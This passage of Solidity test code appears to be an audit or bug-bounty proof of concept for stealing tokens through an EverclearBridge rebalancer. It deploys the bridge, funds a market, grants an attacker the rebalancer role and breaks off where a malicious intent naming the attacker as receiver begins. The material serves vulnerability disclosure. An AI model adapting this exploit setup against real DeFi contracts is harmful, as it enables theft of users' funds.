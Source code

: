 ```solidity
        // Deploy the ACTUAL EverclearBridge contract
        everclearBridge = new EverclearBridge(
            address(roles),
            address(mockFeeAdapter)
        );

        // Setup proper permissions and configurations
        roles.allowFor(address(this), roles.GUARDIAN_BRIDGE(), true);

        // Whitelist the REAL EverclearBridge (not mock)
        rebalancer.setWhitelistedBridgeStatus(address(everclearBridge), true);
        rebalancer.setWhitelistedDestination(DESTINATION_CHAIN_ID, true);
        rebalancer.setMaxTransferSize(
            DESTINATION_CHAIN_ID,
            address(weth),
            type(uint256).max
        );

        // Setup market allowlist
        address[] memory markets = new address[](1);
        markets[0] = address(mWethHost);
        rebalancer.setAllowList(markets, true);

        // Grant rebalancer permission to call bridge
        roles.allowFor(address(rebalancer), roles.REBALANCER(), true);
        roles.allowFor(address(this), roles.GUARDIAN_BRIDGE(), false);

        console2.log("=== SETUP COMPLETE ===");
        console2.log("EverclearBridge deployed at:", address(everclearBridge));
        console2.log("MockFeeAdapter deployed at:", address(mockFeeAdapter));
        console2.log("");
    }

    /**
     * @notice Two-phase attack demonstration with real token theft
     */
    function test_POC() external {
        console2.log("=== TWO-PHASE EVERCLEAR BRIDGE THEFT PoC ===");
        console2.log("");

        // Step 1: Fund the market with tokens
        console2.log("Step 1: Setting up market with funds");
        _getTokens(weth, address(mWethHost), MARKET_AMOUNT);
        uint256 marketBalanceBefore = weth.balanceOf(address(mWethHost));
        console2.log("Market balance:", marketBalanceBefore);
        console2.log("");

        // Step 2: Give attacker REBALANCER_EOA role
        console2.log("Step 2: Granting REBALANCER_EOA role to attacker");
        roles.allowFor(attacker, roles.REBALANCER_EOA(), true);
        console2.log("");

        // Step 3: Record initial balances
        uint256 attackerBalanceBefore = weth.balanceOf(attacker);
        uint256 rebalancerBalanceBefore = weth.balanceOf(address(rebalancer));

        console2.log("=== PHASE 1: MALICIOUS INTENT SUBMISSION ===");
        console2.log("Market balance:", marketBalanceBefore);
        console2.log("Attacker balance:", attackerBalanceBefore);
        console2.log("Rebalancer balance:", rebalancerBalanceBefore);
        console2.log("");

        // Step 4: Create malicious intent with attacker as receiver
```